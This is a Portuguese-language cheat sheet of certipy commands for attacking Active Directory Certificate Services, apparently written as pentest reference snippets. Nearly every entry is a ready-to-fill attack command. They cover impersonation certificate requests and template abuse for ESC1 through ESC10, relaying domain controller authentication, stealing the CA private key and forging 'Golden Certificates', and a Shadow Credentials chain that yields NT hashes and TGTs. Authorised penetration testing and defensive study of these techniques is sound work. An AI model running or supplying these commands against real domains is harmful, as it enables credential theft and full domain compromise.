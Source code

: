 # certipy

% adcs, certificate, pki, windows, Active directory, template, shadow credential

## certipy - lista modelos de certificados
#plateform/linux #target/remote #cat/RECON
```
certipy find -u <user>@<domain> -p '<password>' -dc-ip <dc-ip> 
```

## certipy - solicita certificados
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority>
```

## certipy - autentica utilizando certificado pfx
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> 
```
## certipy - autentica pelo LDAP (canal) utilizando certificado pfx
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> -dc-ip <dc-ip> -ldap-shell
```

## certipy - Golden Certificate - rouba o certificado CA e a chave privada
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -backup -ca <certificate-authority> -target-ip <ca-ip>
```

## certipy - Golden Certificate - forja um certificado
#plateform/linux #target/remote #cat/ATTACK
```
certipy forge -ca-pfx <pfx-file> -upn <user>@<domain> -crl ldap://<dc-ip>:389
```

## certipy - solicita um certificado para outro usuario - ESC1 - ESC6
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -upn <targeted-user>@<domain>
```

## certipy - solicita um certificado em nome do agente certificador com uma solicitação de certificado - ESC3
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -target <ca-fqdn> -template <template> -ca <certificate-authority> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## certipy - modifica o modelo para torna-lo vulneravel a ESC1 - ESC4 
#plateform/linux #target/remote #cat/ATTACK
```
certipy template -u <user>@<domain> -p '<password>' -template <template> -save-old
```

## certipy - Emitir um certificado para um id de request especifico - ESC7
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -ca <certificate-authority> -issue-request <csr-id>
```

## certipy - retransmitir a autenticação para a inscrição WEB do CA - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn>
```

## certipy - retransmitir a autenticação do controlador de dominio para a inscrição WEB do CA - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -ca <ca-fqdn> -template 'DomainController'
```

## certipy - Modifica o upn do usuario para outro - ESC9 - ESC10
#plateform/linux #target/remote #cat/ATTACK
```
certipy account update -u <user>@<domain> -p '<password>' -user <targeted-user> -upn <administrator-user>
```

## certipy - Adquirir NT hash - Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
A cadeia inteirodo exploit Shadow Credential: Cria uma chave de credencial, autentica e consegue a NT hash e um TGT, depois remove a chave de credencial
```
certipy shadow auto -u <user>@<domain> -p '<password>' -account <targeted-user>
```